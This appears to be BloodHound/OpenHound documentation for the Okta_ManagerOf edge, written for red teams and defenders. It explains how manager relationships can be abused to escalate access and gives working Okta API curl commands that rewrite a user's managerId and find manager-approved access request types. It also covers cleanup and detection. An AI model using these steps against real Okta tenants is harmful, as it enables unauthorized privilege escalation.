

## General Information

Okta uses the `Manager` and `ManagerId` user profile attributes to represent managerial relationships. Unfortunately, these attributes can have any arbitrary value and their referential integrity is not enforced by Okta. They are not even synchronized from external directories by default.

Our recommendation is to map the `ManagerId` attribute to the login of the manager in Okta. When synchronizing users from Active Directory, the `getManagerUser("active_directory").login` mapping expression can be used to achieve this. Such values are automatically recognized by the OpenHound Okta collector.

The **non-traversable** Okta_ManagerOf edges represent the organizational structure in BloodHound:



## Abuse Info

`Okta_ManagerOf` is an organizational metadata edge, not an Okta authentication privilege by itself. It becomes abusable when Access Requests, Identity Governance, Okta Workflows, HR workflows, group rules, app approvals, ticketing, or account recovery processes trust the source manager relationship for decisions that affect the destination user.

OpenHound emits this edge when the destination user's `managerId` profile value resolves to the source user's Okta login. Because Okta does not enforce referential integrity on the default `manager` and `managerId` profile fields, the real authority usually lives in the process or source system that writes those attributes.

To abuse this edge by controlling the source manager:

1. Compromise the source manager's Okta account, email, workflow approval channel, or ticketing account.
2. Identify Access Requests, Identity Governance, Workflow, HR, or ticketing processes where `MANAGER` approval grants access to groups, applications, entitlements, account recovery, or profile changes.
3. Submit or wait for a request affecting the destination user.
4. Approve the request as the source manager.
5. Use the resulting destination-user change, such as group membership, app assignment, temporary access, or profile update, to continue the attack path.

To abuse this edge by controlling the profile source:

1. Identify whether the destination user's `managerId` comes from Okta, AD, LDAP, HRIS, Workday, or another profile source.
2. Change the destination user's manager value to a controlled manager login in the authoritative source.
3. Trigger or wait for import/profile sync.
4. Submit a manager-approved access request for the destination user.
5. Approve as the controlled manager and use the resulting access.

Using the Admin Console and Access Requests:

1. Open the destination user in **Directory** > **People** and record the `manager` and `managerId` profile values.
2. Open profile mappings or the profile source to determine where the manager fields are mastered.
3. In Okta Access Requests, review request types that use manager approval.
4. Submit a request for the destination user or wait for an existing request that grants useful group or app access.
5. Approve the request from the source manager's account or workflow channel.
6. Verify the destination user received the expected group membership, app assignment, or entitlement.
7. Sign in or refresh sessions as the destination user only after the granted access is visible.

Using the Okta API:

1. Set variables for the manager, destination user, and optional temporary access.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export MANAGER_USER_ID="00u..."
    export TARGET_USER_ID="00u..."
    export TEMP_MANAGER_LOGIN="controlled.manager@contoso.com"
    export TEMP_GROUP_ID="00g..."
    export TEMP_APP_ID="0oa..."
    ```

2. Capture the current manager state for the destination user.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID" \
      | tee /tmp/okta-managerof-target-original.json

    jq '{id, login: .profile.login, manager: .profile.manager, managerId: .profile.managerId, profileSource: .credentials.provider}' \
      /tmp/okta-managerof-target-original.json
    ```

3. Verify the source manager identity.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$MANAGER_USER_ID" \
      | jq '{id, status, login: .profile.login, email: .profile.email}'
    ```

4. If Okta masters the destination user's manager fields, temporarily change `managerId` to a controlled manager login. If AD, LDAP, HRIS, or another app masters the field, make the equivalent change in that source system and use the Okta API only to verify the import.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"profile\":{\"managerId\":\"$TEMP_MANAGER_LOGIN\"}}" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID" \
      | jq '{id, login: .profile.login, managerId: .profile.managerId}'
    ```

5. Identify Access Request types that use manager approval and target groups or applications. Okta's Governance API uses OAuth scopes; replace the header with `Authorization: Bearer $OKTA_ACCESS_TOKEN` if your org requires scoped OAuth for this API.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/governance/api/v1/request-types?limit=200" \
      | jq '.data[]? | select(.approvalSettings.approvals[]?.approverType == "MANAGER") | {id, name, status, resourceSettings, approvalSettings}'
    ```

6. After manager approval grants access, verify the concrete result. These examples check group membership and direct app assignment for the destination user.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TEMP_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.TARGET_USER_ID) | [.id, .profile.login] | @tsv'

    curl -i -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TEMP_APP_ID/users/$TARGET_USER_ID"
    ```

## Cleanup after Abuse

Cleanup for `Okta_ManagerOf` closes or reverses the manager-approved access change, restores the destination user's manager profile fields in the authoritative source, and revokes sessions created after the temporary approval.

Cleanup using Admin Console:

1. Close, expire, or revoke the Access Request, workflow approval, ticket, or HR change that was approved through the source manager.
2. Remove the group membership, app assignment, entitlement, or profile change granted to the destination user.
3. Restore the destination user's original `manager` and `managerId` values in the authoritative source, such as Okta, AD, LDAP, HRIS, or Workday.
4. Trigger or wait for import/profile sync if the manager field is externally mastered.
5. Revoke sessions for the destination user if the granted access was used.
6. Verify the destination user again points to the legitimate manager and no longer has the temporary access.

Cleanup using API:

1. Restore the destination user's original Okta-mastered `manager` and `managerId` values. If the field is source-mastered, perform the equivalent restore through the source-system API and use this Okta request only for verification.

    ```bash
    export ORIGINAL_MANAGER="$(jq -r '.profile.manager // empty' /tmp/okta-managerof-target-original.json)"
    export ORIGINAL_MANAGER_ID="$(jq -r '.profile.managerId // empty' /tmp/okta-managerof-target-original.json)"

    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"profile\":{\"manager\":\"$ORIGINAL_MANAGER\",\"managerId\":\"$ORIGINAL_MANAGER_ID\"}}" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID" \
      | jq '{id, login: .profile.login, manager: .profile.manager, managerId: .profile.managerId}'
    ```

2. Remove group membership granted by the manager-approved workflow.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TEMP_GROUP_ID/users/$TARGET_USER_ID"
    ```

3. Remove direct app assignment granted by the workflow.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TEMP_APP_ID/users/$TARGET_USER_ID"
    ```

4. Revoke sessions and OAuth tokens for the destination user.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/sessions?oauthTokens=true"
    ```

5. Verify the manager fields and temporary access are restored.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID" \
      | jq '{id, login: .profile.login, manager: .profile.manager, managerId: .profile.managerId}'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TEMP_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.TARGET_USER_ID)'
    ```

## Opsec Considerations

Manager-based abuse often appears first in Access Requests, workflow, ticketing, HR, or source-directory audit logs rather than as a direct Okta admin action. In Okta, review `user.account.update_profile`, group membership events, application assignment events, session creation, and suspicious manager approvals shortly before new privileged access.

Because the collector maps `managerId` to an Okta login, defenders should also alert on manager fields that do not match valid user logins, manager changes shortly before approvals, and requests where the approving manager's network, device, or session context is unusual.

## References

- [Okta Users API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/User/)
- [Okta Profile Mappings API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ProfileMapping/)
- [Okta Access Requests API](https://developer.okta.com/docs/api/iga/openapi/governance.requests.admin.v1/overview/)
- [Okta Access Requests help](https://help.okta.com/en-us/content/topics/identity-governance/access-requests/ar-overview.htm)
- [Okta Group API: Unassign a user from a group](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/#tag/Group/operation/unassignUserFromGroup)
- [Okta Application Users API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationUsers/)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
